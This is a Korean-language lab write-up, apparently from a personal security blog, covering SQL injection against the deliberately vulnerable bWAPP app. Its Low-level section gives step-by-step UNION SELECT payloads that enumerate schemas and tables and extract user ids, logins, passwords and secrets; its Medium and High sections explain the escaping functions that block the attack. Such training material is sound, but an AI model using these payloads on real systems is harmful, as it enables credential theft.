 ```yaml
---
layout: single
title: (bWAPP)SQL Injection POST/Search
categories: bwapp
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low
![그림 1-1](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image.png)

- Select 기능을 통해 특정 값을 추출함
- 입력값을 전달할 수 있는 방안이 페이지상에 없어 Proxy Tool을 사용

![그림 1-2](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image2.png)

- 입력값은 POST 형식으로 전송
- movie 파라미터에 int 형으로 전송

![그림 1-3](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image3.png)

- '(싱글쿼터) 를 통해 DBMS Error 유/무 확인
- DBMS Error 에러발생

```sql
1 order by 8-- 
```

- order by 절 을 사용하여 컬럼 개수 파악
- 7개의 컬럼 존재 추정
![그림 1-4](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image4.png)
- 우선 출력포지션을 확인했다.

```sql
1 and 1=2 union select 1,2,3,4,5,6,7--
```

![그림 1-5](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/imag5.png)
- 이후 동일하게 테이블명, 컬럼명, 데이터 추출을 시도함.

```sql
1 and 1=2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata limit 2,1--
```

```sql
1 and 1=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP' limit 3,1--
```

```sql
1 and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users' limit 1,1--
```

```sql
 and 1=2 union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users limit 
 
 ```
![그림 1-6](/assets/image/bwapp/injection/sqlp-select-archive/sqlp-select/image6.png)

- 성공적으로 id, login, password, secret 데이터를 출출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

